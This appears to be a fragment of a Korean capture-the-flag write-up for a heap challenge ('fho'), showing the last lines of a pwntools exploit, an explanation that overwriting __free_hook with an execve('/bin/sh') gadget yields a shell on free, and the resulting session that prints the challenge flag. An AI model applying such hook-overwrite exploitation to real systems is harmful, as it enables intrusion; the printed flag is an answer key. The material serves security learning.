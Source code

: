 ```python

p.recvuntil("To free: ")
p.sendline(str(0))

p.interactive()
```

이 때에는 free_hook에 전달해준 함수의 주소가 execve(”/bin/sh”)라서 free가 실행될 때 바로 execve(”/bin/sh”)가 실행되기 때문에 인자는 아무거나 전달해주면 된다.

```python
$ ls
fho
flag
run.sh
$ cat flag
DH{584ea800b3d6ff90857aa4300ba42218}
```

마찬가지로 쉘권한을 정상적으로 획득하여 flag값을 얻어낸 것을 확인할 수 있다.

